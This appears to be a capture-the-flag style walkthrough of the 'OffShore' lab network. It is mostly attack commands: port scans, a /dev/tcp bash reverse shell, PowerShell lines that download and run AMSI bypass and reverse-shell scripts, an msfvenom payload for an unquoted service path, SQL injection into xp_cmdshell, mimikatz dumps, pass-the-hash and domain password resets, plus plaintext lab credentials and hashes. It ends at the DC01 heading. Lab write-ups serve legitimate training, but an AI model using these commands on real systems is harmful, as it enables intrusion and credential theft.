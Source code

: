 # OffShore

Do a ping sweep with

```
fping -s -g 10.10.110.0/24
```

Three host alive

* 10.10.110.2
* 10.10.110.123
* 10.10.110.124

## NIX01

Scan the ports

```
nmap -Pn -sT -sV -T5 10.10.110.123 -p-
```

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

in the port :8000 we can see the splunk web app.&#x20;

[https://www.n00py.io/2018/10/popping-shells-on-splunk/](https://www.n00py.io/2018/10/popping-shells-on-splunk/)

Upload the splunk shell from [https://github.com/TBGSecurity/splunk\_shells](https://github.com/TBGSecurity/splunk\_shells)

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Postgres is listening

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Don't know what type of vuln

{% code overflow="wrap" %}
```
PATH="/usr/local/pgsql/bin:$PATH" ./pg_exec.sh -c '/bin/bash -c "0<&97-;exec 97<>/dev/tcp/10.10.14.3/4444;sh <&97 >&97 2>&97"'
```
{% endcode %}

and in the new shell

```
sudo /usr/bin/tail -f -n +1 /root/.ssh/id_rsa
```

## Pivoting

Setup proxychains with

```
ssh -i id_rsa_NIX01 -D 9050 root@10.10.110.123
```

And ligolo-ng. After that we can ping sweep to find hosts on the other Lan

```
fping -s -g 172.16.1.0/24
```



<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## MS01

Port Scan

```
nmap -Pn -sT -sV -T5 172.16.1.30
```

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

run tcp dump on NIX01, creds and a flag can be grabbed:&#x20;

```
tcpdump -i eth0 -nn -s0 -v port 80 -w test.cap
```

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

creds= `admin`:`Zaq12wsx!`. Access the website and go under _“Workflow > Create New Workflow” then drag “Start Process” to the workflow pane._&#x20;

{% code overflow="wrap" %}
```
cmd /c powershell -c iex (iwr -UseBasicParsing http://172.16.1.23:8080/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.1.23:8080/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.1.23:8080/Invoke-PowerShellTcp.ps1)
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

in C:\Users\administrator.ADMIN.000\Documents we can file a xlsx protected by password. Crackit with john

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<table><thead><tr><th width="195">Account</th><th width="186">Username</th><th width="114">Pass</th></tr></thead><tbody><tr><td></td><td></td><td></td></tr><tr><td>Network login</td><td>ned.flanders_adm</td><td>Lefthandedyeah!</td></tr><tr><td>Email</td><td><a href="mailto:ned.flanders@offshore.com">ned.flanders@offshore.com</a></td><td>Lefty1974!</td></tr></tbody></table>

<table><thead><tr><th width="195">Bank</th><th width="186"></th><th width="114"></th></tr></thead><tbody><tr><td><a href="https://www.betabank.eu/">https://www.betabank.eu/</a></td><td>991103</td><td>0419!094Ar</td></tr></tbody></table>

## WSADMIN

Scan the ports

```
nmap -Pn -sT -sV -T5 172.16.1.36
```

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Login with xfreerdp

{% code overflow="wrap" %}
```
xfreerdp /u:'ned.flanders_adm' /p:'Lefthandedyeah!' /cert-ignore /drive:Tools,/home/kali/Desktop/Tools /v:172.16.1.36 +clipboard
```
{% endcode %}

With PowerUp.Ps1 we can identify an unquoted service path

{% code overflow="wrap" %}
```
generate exe         : msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4443 -f exe > Lavasoft.WCAssistant.WinService.exe
place it under       : C:\Program Files (x86)\Lavasoft\Web Companion\Application"
restart the service  : sc.exe stop WCAssistantService > sc.exe start WCAssistantService
```
{% endcode %}

now add  an account that we control to the local administrator group

<pre><code>net user hacker hacker123 /add
<strong>net localgroup administrators hacker /add
</strong></code></pre>

Logout and reconnect to refresh the privileges. Dump creds with mimikatz

| User    | Password                                                                                                                  | hash                             |
| ------- | ------------------------------------------------------------------------------------------------------------------------- | -------------------------------- |
| WSADM$  | M9f,Dzf_5tM9>'BjGhH`;KETEKLcQ;K&NQg/gGRGSJFs'Np\ah%(OB^aXLjNa[1eB"a>+U^<z`j'Ca"TZV=fm+BBDW\&t/?0Hm)R>)ZkcswFkz:8PQFp_b!>4 | 19f221a69c0693ebfdc064393b55d509 |
| wsadmin | Workstationadmin1!                                                                                                        | 669b12a3bac275251170afbe2c5de8c2 |
|         |                                                                                                                           |                                  |



## WS02

Scan the ports

```
nmap -Pn -sT -sV -T5 172.16.1.101
```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Enter using evil-winrm with the creds previously found

{% code overflow="wrap" %}
```
evil-winrm -u 'wsadmin' -H '669b12a3bac275251170afbe2c5de8c2' -i 172.16.1.101 -s ../Tools/CRTE/
```
{% endcode %}

| user  | passw                                                                                                             | hash                             |
| ----- | ----------------------------------------------------------------------------------------------------------------- | -------------------------------- |
| ws02$ | C(,XH/CsF zf.j`V/^_T."Aq/l#cDitRw<B@m.7/e,;O^M*RHq/sqFlJb!GLotI\N5f6V571QZ)KO;*]MgnHW$<[txRNygHy0Axj`\[e/egkT5bl4 | c72e375bed0918ced38b7a8d3e7f5e09 |
|       |                                                                                                                   |                                  |
|       |                                                                                                                   |                                  |

## WEB-WIN01

Scan the ports

```
nmap -Pn -sT -sV -T5 172.16.1.24
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

login screen on [http://172.16.1.24/login](http://172.16.1.24/login)

Login with svc\_iis:::Vintage! (idk where to find them) and bypass the next login screen with a simple SQLi.

Now there is a SOAP request that you can make, found out at this file /DocumentsService.asmx?WSDL

us wsdler to parse the request and repeter to send request to the dev endpoint. The author field is vulnerable to sqli

{% code overflow="wrap" %}
```
>a'); exec xp_cmdshell "powershell -c iex(iwr -UseBasicParsing http://172.16.1.23:8080/Invoke-PowerShellTcp.ps1)"--
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Inside c:\users\public\libraries there are credentials for a user

```
ver = "\\172.16.4.100"  
$FullPath = "$Server\q1\backups"  
$username = "pgibbons"  
$password = "I l0ve going Fishing!"
```

On bloodhound we can see that pgibbons can control the user salvador

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
.\RunasCs.exe pgibbons "I l0ve going Fishing!" "powershell.exe /c 'net user salvador hacker1 /domain'"
```
{% endcode %}

```
net rpc password "salvador" -U "corp.local"/"pgibbons" -S "172.16.1.5"
```

<figure><img src="../.gitbook/assets/immagine (43).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```
net rpc group addmem "SECURITY ENGINEERS" "salvador" -U "corp.local"/"salvador"%"hacker1" -S "172.16.1.5"
```
{% endcode %}

<figure><img src="../.gitbook/assets/immagine (44).png" alt=""><figcaption></figcaption></figure>

```
net rpc password "CYBER_ADM" -U "corp.local"/"salvador" -S "172.16.1.5"
```

now login with remmina

## DC01

